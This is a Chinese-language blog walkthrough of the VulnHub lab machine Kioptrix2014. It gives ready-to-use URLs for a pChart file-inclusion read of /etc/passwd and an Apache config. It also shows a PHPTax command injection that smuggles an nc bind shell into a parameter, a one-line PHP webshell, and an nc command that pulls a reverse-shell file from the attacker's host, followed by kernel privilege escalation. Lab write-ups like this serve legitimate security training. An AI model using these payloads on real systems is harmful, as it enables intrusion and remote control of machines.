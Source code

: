 ```yaml
---
layout: post
title:  "vulnhub >_ kioptrix2014"
description: walkthrough
category: vulnhub
---
```

# kioptrix2014

>页面源码信息利用
>
>useragent伪装
>
>freebsd apache22的设置文件位置
>
>webshell传输文件
>
>freebsd 9.0内核提权

常规扫描

得到结果80和8080

8080：

![image-20200608224821434]({{ site.url }}/assets/Untitled.assets/image-20200608224821434.png)



80端口：

![image-20200608223742956]({{ site.url }}/assets/Untitled.assets/image-20200608223742956.png)



源码中发现线索

![image-20200608223819494]({{ site.url }}/assets/Untitled.assets/image-20200608223819494.png)

pChart2.1.3/index.php

搜索漏洞。

![image-20200608223906718]({{ site.url }}/assets/Untitled.assets/image-20200608223906718.png)

发现可以利用文件包含

![image-20200608223941736]({{ site.url }}/assets/Untitled.assets/image-20200608223941736.png)

验证：

```html
hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
http://192.168.43.139/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
```

![image-20200608224417067]({{ site.url }}/assets/Untitled.assets/image-20200608224417067.png)

验证成功

根据线索查找设置文件

![image-20200608224702860]({{ site.url }}/assets/Untitled.assets/image-20200608224702860.png)

![image-20200608231901171]({{ site.url }}/assets/Untitled.assets/image-20200608231901171.png)

利用现有LFI查看设置文件

```bash
http://192.168.43.139/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```

找到8080端口所需要的useragent



![image-20200608232052099]({{ site.url }}/assets/Untitled.assets/image-20200608232052099.png)

```bash
Mozilla/4.0 Mozilla4_browser
```

在firefox中利用插件伪装useragent

![image-20200608233129036]({{ site.url }}/assets/Untitled.assets/image-20200608233129036.png)

成进入

![image-20200608233241443]({{ site.url }}/assets/Untitled.assets/image-20200608233241443.png)

搜索漏洞，发现存在远程代码执行![image-20200608233401733]({{ site.url }}/assets/Untitled.assets/image-20200608233401733.png)

![image-20200608233522894]({{ site.url }}/assets/Untitled.assets/image-20200608233522894.png)

```BASH
192.168.43.139:8080/phptax/drawimage.php?pfilez=xxx;%20nc%20-l%20-v%20-p%2023235%20-e%20/bin/bash;&pdf=make
```

尝试按漏洞利用文件中描述的方法绑定shell，但是无法正确通讯

稳妥办法，写一个websehll先

```bash
http://192.168.43.139:8080/phptax/drawimage.php?pfilez=xxx;echo%20%22%3C?php%20system(%5C$_GET%5B%27m%27%5D);%20?%3E%22%20%3E%20evil.php;&pdf=make


echo "<?php system(\$_GET['m']); ?>" > evil.php
```

![image-20200609002905591]({{ site.url }}/assets/Untitled.assets/image-20200609002905591.png)

然后通过webshell，上传php rshell

![image-20200609002705267]({{ site.url }}/assets/Untitled.assets/image-20200609002705267.png)

![image-20200609002550470]({{ site.url }}/assets/Untitled.assets/image-20200609002550470.png)

![image-20200609003011609]({{ site.url }}/assets/Untitled.assets/image-20200609003011609.png)

由于目标机器wget不存在，利用webshell 控制nc传递文件

```bash
http://192.168.43.139:8080/phptax/evil.php?m=nc 192.168.43.66 1234 > reverse_shell.php
```

![image-20200609003422717]({{ site.url }}/assets/Untitled.assets/image-20200609003422717.png)

![image-20200609003453814]({{ site.url }}/assets/Untitled.assets/image-20200609003453814.png)

地址栏执行，得到shell

```bash
http://192.168.43.139:8080/phptax/reverse_shell.php
```

![image-20200609004256214]({{ site.url }}/assets/Untitled.assets/image-20200609004256214.png)

常规检查发现内核版本，适合内核提权

![image-20200609004235936]({{ site.url }}/assets/Untitled.assets/image-20200609004235936.png)

![image-20200609004453248]({{ site.url }}/assets/Untitled.assets/image-20200609004453248.png)

没有wget，再次使用webshell 利用 nc传递过去

内核提权成功

